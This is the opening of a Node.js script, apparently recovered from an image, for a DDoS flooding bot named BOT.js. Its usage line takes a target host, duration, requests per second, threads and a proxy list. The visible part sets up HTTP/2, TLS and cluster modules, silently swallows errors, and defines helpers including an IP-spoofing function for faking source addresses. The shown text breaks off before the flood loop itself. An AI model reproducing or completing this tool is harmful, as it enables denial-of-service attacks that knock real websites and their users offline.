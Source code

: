  const net = require("net");
 const http2 = require("http2");
 const tls = require("tls");
 const cluster = require("cluster");
 const url = require("url");
 const crypto = require("crypto");
 const fs = require("fs");
 const axios = require('axios');
 const cheerio = require('cheerio'); 
 const gradient = require("gradient-string")
 const chalk = require('chalk');

// Define a custom gradient with your preferred colors
const customGradient = gradient(['orange', 'orange', 'white', 'white', 'green', 'green', 'green']);

 process.setMaxListeners(0);
 require("events").EventEmitter.defaultMaxListeners = 0;
 process.on('uncaughtException', function (exception) {
  });

 if (process.argv.length < 7){console.log(gradient.vice(`[!] node BOT.js <HOST> <TIME> <RPS> <THREADS> <PROXY>.`));; process.exit();}
 const headers = {};
  function readLines(filePath) {
     return fs.readFileSync(filePath, "utf-8").toString().split(/\r?\n/);
 }
 
 function randomIntn(min, max) {
     return Math.floor(Math.random() * (max - min) + min);
 }
 
 function randomElement(elements) {
     return elements[randomIntn(0, elements.length)];
 } 
 
 function randstr(length) {
   const characters =
     "ABCDEFGHIJKLMNOPQRSTUVWXYZabcdefghijklmnopqrstuvwxyz0123456789";
   let result = "";
   const charactersLength = characters.length;
   for (let i = 0; i < length; i++) {
     result += characters.charAt(Math.floor(Math.random() * charactersLength));
   }
   return result;
 }
 
 const ip_spoof = () => {
   const getRandomByte = () => {
     return Math.floor(Math.random() * 255);
   };
   return `${getRandomByte()}.${getRandomByte()}.${getRandomByte()}.${getRandomByte()}`;
 };
 
 const spoofed = ip_spoof();
 